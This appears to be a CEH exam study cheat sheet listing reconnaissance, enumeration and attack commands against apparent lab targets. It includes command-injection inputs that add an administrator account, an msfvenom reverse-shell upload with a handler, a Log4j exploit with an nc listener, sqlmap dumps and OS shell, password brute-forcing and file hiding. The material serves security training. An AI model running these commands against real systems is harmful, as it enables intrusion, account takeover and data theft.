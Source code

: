 # ceh Guide 
Footprinting
-Whois - https://www.whois.com/whois/ 
-Netcraft
-ipvoid. com
-PeekYou- web foot printing for personal info
-Ping command
-Know the ip address:Ping www.example.com
-Know the packet size before dropping -ping www.certifiedhacker.com -f -l 1472
-Photon:python3 photon.py -u http://www.certifiedhacker.com -l 3 -t 200 --wayback
-Web Data Extractor - emails and all
-grecon- subdomains, word press, login pages
-ARIN Whois  - helps to find the network range
-Centrlops
To get tools from windows: Ctrl+L >> smb://ip
Scanning
-Network scan(gui) - megaping, netsacntools pro
-Nmap:
  Full open : nmap -sT -v ip
  Aggressive: nmap -T4 -A ip
-Hping3:
  hping3 -A [Target IP Address] -p 80 -c 5
  hping3 --scan 0-100 -S [Target IP Address 
  hping3 -8 0-100 -S [Target IP Address] -V 
-Live hosts: nmap -sn -PE range
-To know which device is hosting a website : nmap -p 80,443 —script http-title ip-range
Enumeration
-NetBIOS:
 -Windows:
  nbtstat -a [IP address]
  nbtstat -c
  net use
-Linux:
  nmap -sV -v --script nbstat.nse [Target IP Address]
  nmap -sU -p 137 --script nbstat.nse [Target IP Address]
-SNMP
 snmp-check [Target IP Address]
 Softperfect networkscanner- gui : helps to find hostnames
 snmpwalk -v1 -c public [target IP]
 snmpwalk -v2c -c public [Target IP Address]
 nmap -sU -p 161 --script=snmp-sysdescr [target IP Address]
 nmap -sU -p 161 --script=snmp-processes [target IP Address]
 nmap -sU -p 161 --script=snmp-win32-software [target IP Address]
 Nmap-sU -p 161 --script=snmp-interfaces [target IP Address]
-LDAP:
 AD Explorer-GUI
 ldapsearch -h [Target IP Address] -x -s base namingcontexts 
 ldapsearch -h [Target IP Address] -x -b "DC=CEH,DC=com"
 ldapsearch -x -h [Target IP Address] -b "DC=CEH,DC=com" "objectclass=*" 
-NFS:
 Superenum : ./superenum
 python3 rpc-scan.py [Target IP address] --rpc
-DNS:
 dig ns [Target Domain]
 dig @[[NameServer]] [[Target Domain]] axfr
-To find responsible mail address : in windows >> nslookup >> set type=soa >> target domain
-./dnsrecon.py -d [Target domain] -z
-nmap --script=broadcast-dns-service-discovery [Target Domain] 
-SMTP
 nmap -p 25 --script=smtp-enum-users [Target IP Address] 
 nmap -p 25 --script=smtp-open-relay [Target IP Address] 
 nmap -p 25 --script=smtp-commands [Target IP Address]
Vulnerability Analysis
-OpenVAS
-Nessus
-Nikto 
 nikto -h (Target Website) -Tuning x
 nikto -h (Target Website) -Cgidirs all
System Hacking:
-Responder -I eth0
-L0pht crack
-Hiding files using NTFS: type c:\magic\calc.exe > c:\magic\readme.txt:calc.exe
 mklink backdoor.exe readme.txt:calc.exe
 backdoor.exe : opens the hidden calc app
-Steganography
 White Space steganography : snow-snow -C -p "magic" readme2.txt
 Openstego
  https://stegonline.georgeom.net/upload
Malware Analysis
-Static:
-BinText - Strings search
-Detect It Easy (DIE) - ELF files
-PE Explorer - Portable executable (PE) information 
-Ghidra - malware disassembly
-Dynamic
-TCPView - port monitoring 
-Reg Organizer - registry monitoring
Sniffing
-Wireshark - password sniffing - http.request.method == POST
-Mac changing in linux -macchanger -a eth0
-Cain and Abel -Detect ARP poisoning and promiscuous mode
-nmap --script=sniffer-detect [Target IP Address
Social Engineering 
-setoolkit , net craft extension
DOS
-Anti DDoS Guardian
Session Hijacking: ZAP, bettercap
Web servers Hacking
-Whois : python3 ghost_eye.py
-Reconniacanse : httprecon GUI
-Nectat - nc -vv www.moviescope.com 80
-Telnet - telnet www.moviescope.com 80 >> GET / HTTP/1.0
-Enumeration: nmap -sV --script=http-enum [target website]
-HOSTNAME - nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- www.example.com
-Http trace - nmap --script http-trace -d www.example.com
-Firewall - nmap -sV —script http-waf-detect target 
Unison:
-Directories - uniscan -u http://url -q
-File check - uniscan -u http://url -we
-Dynamic - uniscan -u http://url -d
-Brute Force- hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://[IP Address]
Web Application Hacking
-whatweb -v [Target]
-whatweb --log-verbose=Report TARGET.COM
-Load balancers: dig yahoo.com >>> lbd yahoo.com
-Directories: gobuster dir -u [Target Website] -w /home/attacker/Desktop/common.txt
-python3 dirsearch.py -u http://www.moviescope.com
-Detect clickjacking - ClickjackPoc
-Wordpress login site - wp-login.php?
-Identify XSS - PwnXSS : python3 pwnxss.py -u http://example
-Identify Content management system : wig www.cehorg.com
-Brute forcing : wpscan
 -wpscan --api-token [API Token] --url http://example --enumerate u 
 -wpscan --url http://cehorg.com/wp-login.php -U <username.txt> -P <password.txt>
-Command injection in dvwa:
 -Hostname : | hostname
 -System info : | whoami
 -to view a file : | type
 -Running processes: | tasklist,
 -Kill a task: | Taskkill /PID /F
 -Directory structure: | dir C:\
 -Add a user: | net user Test /Add
 -Grant admin privileges: | net localgroup Administrators Test /Add (after successfully adding the user you can get rdp to the device)
 -Check users : | net user
-File upload vulnerability:
 -Create payload and paste t to upload.php file: msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw
 -Upload the file to dvwa and note the location
 Msfconsole
 -Use exploit/multi/handler
 -Set options
 -Use payload php/meterpreter/reverse_tcp
 -Run
 -Go to the upload path and you get shell access
 -Medium: save it as .jpg and when clicking upload intercept the traffic in burpsuite and change the file name
 -High: save the file with first line as gif98 and save as .jpeg and upload after that go to command injection and |copy .jpeg path to .php
Log4j:
 -tar -xf jdk-8u202-linux-x64.tar.gz
 -mv jdk1.8.0_202 /usr/bin/
 -pluma poc.py change line 62,87,99 with /usr/bin/jdk1.8.0_202/bin/java
 -In new terminal nc -lvp 9001
 -python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001
 -Copy the payload and paste in login form you get access.
SQL injection
Sqlmap : 
 -sqlmap -u "http://www.example.com/viewprofile.aspx?id=1" --cookie="[cookie value]" --dbs 
 -sqlmap -u "http://www.example.com/viewprofile.aspx?id=1" --cookie="[cookie value]" -D moviescope --tables 
 -sqlmap -u "http://www.example.com/viewprofile.aspx?id=1" --cookie="[cookie value]" -D moviescope -T User_Login --dump
 -To get os shell : --os-shell
DSSS:
 -python3 dsss.py -u "http://www.example.com/viewprofile.aspx?id=1" --cookie="[cookie value]
Hacking Wireless Networks :
 -WEP-aircrack-ng ‘path to .cap file’
 -WPA2- aircrack-ng -a2 -b [Target BSSID] -w ‘wordlist path’ ‘packet path’
Hacking Mobile Platforms :
 -Phonesploit -python3 phonesploit.py
 -Analyze malicious app in a phone - https://www.sisik.eu/apk-tool 
IOT Hacking:
 -Shodan
 -MQTT -1883
Cryptography
-HashCalc
-MD5 hash
-BCTextEncoder
-Veracrypt
-Cryptanalysis: CrypTool,  alphapeeler
